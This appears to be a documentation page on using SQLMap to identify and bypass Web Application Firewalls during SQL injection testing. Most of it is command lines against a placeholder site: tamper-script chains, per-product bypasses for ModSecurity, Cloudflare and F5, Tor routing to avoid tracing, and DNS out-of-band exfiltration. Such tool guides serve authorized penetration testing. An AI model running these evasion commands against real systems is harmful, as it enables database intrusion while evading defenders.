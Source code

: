 ```yaml
---
title: WAF Detection and Bypass
description: Learn how to detect and bypass Web Application Firewalls using SQLMap
---
```


# WAF Detection and Bypass

Web Application Firewalls (WAFs) are security systems designed to protect web applications from various attacks, including SQL injection. SQLMap includes features to detect and bypass WAFs during authorized security testing.

## Detecting WAFs

### Automatic WAF Detection

SQLMap can automatically detect the presence of a WAF:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --identify-waf
```

This attempts to identify if a WAF is protecting the target application and, if possible, determine which specific WAF product is in use.

### Detailed WAF Fingerprinting

For more detailed WAF fingerprinting:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --fingerprint
```

This performs a more comprehensive fingerprinting of the target, including WAF detection.

## Common WAF Bypass Techniques

### Level and Risk Adjustment

Increasing the test level and risk can help bypass some WAFs:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --level=5 --risk=3
```

Higher levels and risks use more sophisticated techniques that might evade WAF detection.

### Tamper Scripts

SQLMap's tamper scripts modify payloads to bypass WAF filters:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=space2comment,between
```

This example uses two tamper scripts:
- `space2comment`: Replaces spaces with comments
- `between`: Replaces greater-than and less-than operators with BETWEEN statements

### Chaining Multiple Tamper Scripts

You can chain multiple tamper scripts for more effective evasion:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=space2comment,between,charencode,randomcase
```

The scripts are applied in the specified order, creating a more heavily obfuscated payload.

## WAF-Specific Bypass Techniques

### ModSecurity Bypass

For ModSecurity WAF:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=modsecurityversioned,space2comment,charunicodeencode
```

### Cloudflare Bypass

For Cloudflare WAF:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=cloudflare,randomcase,charencode
```

### F5 BIG-IP ASM Bypass

For F5 BIG-IP Application Security Manager:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=between,charunicodeencode,space2randomblank
```

## Advanced Evasion Settings

### Custom User-Agent

Using a legitimate-looking user agent:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36"
```

### Random User-Agent

Using a random user agent for each request:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --random-agent
```

### Request Delays

Adding delays between requests to avoid rate limiting:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --delay=2 --timeout=30
```

This adds a 2-second delay between requests and sets a 30-second timeout.

### Tor Network Routing

Routing requests through the Tor network:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tor --tor-type=SOCKS5
```

This routes all SQLMap traffic through the Tor network, making it harder to trace.


## Troubleshooting WAF Bypasses

If you're having trouble bypassing a WAF:

1. Try different combinations of tamper scripts
2. Use verbose mode (`-v`) to see what's happening
3. Try different injection techniques with `--technique`
4. Use time-based blind techniques which may be harder for WAFs to detect
5. Consider using out-of-band techniques with `--dns-domain`

Remember that WAF evasion success depends on:
- The specific WAF product and its configuration
- The WAF's rule set and update status
- The specific SQL injection vulnerability
- The database management system in use
